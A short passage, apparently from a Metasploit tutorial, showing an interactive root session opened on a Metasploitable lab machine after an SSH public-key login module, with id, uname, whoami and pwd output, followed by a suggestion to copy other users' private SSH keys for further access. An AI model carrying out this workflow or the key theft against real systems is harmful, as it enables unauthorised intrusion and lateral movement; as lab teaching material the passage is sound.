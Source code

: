 ## Getting a Shell

Now we can use the <code>sessions</code> command to utilize the information we just found and set up an interactive session.

```
msf auxiliary(ssh_login_pubkey) > sessions -i 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux

whoami
root

pwd
/root
```</pre>```

We could create more mischief, by copying everyone else's private SSH keys and SSH connection histories, potentially giving us passwordless access to additional machines.

We could also get busy with post-exploit activities.

See https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/
